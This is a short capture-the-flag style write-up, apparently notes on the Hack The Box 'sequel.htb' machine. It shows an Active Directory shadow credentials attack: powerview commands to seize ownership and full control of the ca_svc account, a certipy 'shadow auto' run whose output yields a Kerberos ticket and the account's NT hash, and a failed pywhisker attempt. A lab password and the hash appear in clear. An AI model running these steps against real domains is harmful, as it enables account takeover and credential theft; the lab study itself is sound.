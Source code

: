 ## GenericAll - Shadow Credentials with Certipy

Trying certipy, the first time failed, because my ACL changes have been reverted by now. So I'm redoing those steps with powerview.py this time, note that the flags differ slightly from the original powerview
```bash
PV > Set-DomainObjectOwner -TargetIdentity "ca_svc" -PrincipalIdentity "ryan"
PV > Add-DomainObjectAcl -PrincipalIdentity "ryan" -TargetIdentity "ca_svc" -Rights fullcontrol
```

Certipy autoaticall adds a key to ca svc and then does some magic with kerberos to eventually give us the NT hash for ca svc, I need to understand what exactly this does at some point, I think a tool called whisper.exe/pywhisker.py can do that too.
```bash
certipy shadow auto \
  -u "ryan@sequel.htb" \
  -p "WqSZAF6CysDQbGb3" \
  -account ca_svc \
  -dc-ip 10.10.11.51
```
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '65845dcd-e0d9-2e6f-7d21-0a53048c57de'
[*] Adding Key Credential with device ID '65845dcd-e0d9-2e6f-7d21-0a53048c57de' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '65845dcd-e0d9-2e6f-7d21-0a53048c57de' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```

## GenericAll - Shadow Credentials with pyWhisker

Trying to do that with pywhisker
```
pywhisker \
  --dc-ip 10.10.11.51 \
  -d "sequel.htb" \
  -u "ryan" \
  -p "WqSZAF6CysDQbGb3" \
  -t "ca_svc" \
  -a "add" \
  -f yay
```
```
[!] unsupported hash type MD4
```
